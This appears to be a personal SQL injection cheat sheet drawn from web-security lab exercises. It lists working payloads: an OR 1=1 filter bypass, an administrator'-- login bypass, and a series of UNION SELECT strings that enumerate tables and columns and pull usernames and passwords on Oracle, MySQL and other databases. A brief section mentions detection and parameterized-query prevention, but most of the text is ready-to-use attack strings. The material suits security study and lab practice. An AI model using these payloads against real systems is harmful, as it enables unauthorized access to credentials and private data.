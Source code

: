# **SQL Injection** 
### Retrieving hidden data, where can modify an SQL query to return additional results 
[https://insecure-website.com/products?category=Gifts]
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 
[https://insecure-website.com/products?category=Gifts%27--]
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1` 
[https://insecure-website.com/products?category=Gifts%27+OR+1=1--]
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1` 
### Subverting application logic, where you can change a query to interfere with the application's logic
 If a users credential is wiener:bluecheese 
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'` `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''` 
### UNION attacks, where you can retrieve data from different database tables 
`SELECT name, description FROM products WHERE category = 'Gifts'` `' UNION SELECT username, password FROM users--` 
This will cause the application to return all usernames and passwords along with the names and descriptions of products. Examining the database, where you can extract information about the version and structure of the database 
`SELECT * FROM information_schema.tables` -- what DB table exist 
`SELECT * FROM v$version` -- Oracle version 
### Blind SQL injection, where the results of a query you control are not returned in the applications' responses 
## How to detect SQLi Vuln? 
1. Submitting ' 
2. Submitting SQL-Syntax 
3. Submitting Boolean OR 1=1 OR 1=2 
4. Submitting OAST payload
## Prevent SQLi 
Mostly by using parameterized queries (prepared statements) instead of string concatenation within query (edited)
## Some Useful Commands
###### SQL injection UNION attack, retrieving multiple values in a single column
`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--` 
###### SQL injection attack, querying the database type and version on Oracle 
`'+UNION+SELECT+'abc','def'+FROM+dual--` `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 
###### SQL injection attack, querying the database type and version on MySQL and Microsoft 
`'+UNION+SELECT+'abc','def'#` `'+UNION+SELECT+@@version,+NULL#` 
###### SQL injection attack, listing the database contents on non-Oracle databases 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--` `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` 
###### SQL injection attack, listing the database contents on Oracle 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--` `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--` `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--` . 
###### Use the following payload to retrieve the list of tables in the database: 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` 
###### To get column available in the specified table named 'users_cwrebz' 
`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_cwrebz'--` 
###### To list all available list of tables in a database 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`